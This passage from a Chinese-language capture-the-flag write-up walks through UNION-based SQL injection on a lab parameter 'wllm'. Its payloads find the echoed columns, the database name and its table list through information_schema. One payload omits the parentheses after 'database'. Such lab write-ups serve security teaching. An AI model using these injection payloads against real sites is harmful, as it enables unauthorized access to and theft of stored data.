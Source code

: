 可知是3，接着判断回显，

```sql
?wllm=-1' union select 1,2,3--+
```

（`UNION SELECT`是SQL注入攻击中最常用的技术之一，它允许攻击者将恶意查询结果与原查询结果合并返回。）

![image-20250809222241057](nssctf1.assets/image-20250809222241057.png)

只要把想要回显的内容放在后面两个参数的位置就行。

注意，这里需要把wllm设置为不为1的数（就是让他查不到数据就行，因为wllm=1查得到数据），不然它只会输出wllm=1查询到的数据。然后查看数据库名称

```sql
/?wllm=2'union select 1,2,database--+
```

![image-20250809222925800](nssctf1.assets/image-20250809222925800.png)

得到数据库名称为test_db, 得到数据库名称就可以按顺序数据库-表-列来找flag了

这里就要用到前置知识里面的group_concat函数和information_schema.tables，就是查看‘test_db’数据库下有哪些表。

```sql
/?wllm=2'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='test_db'--+
```

![image-20250809223240206](nssctf1.assets/image-20250809223240206.png)
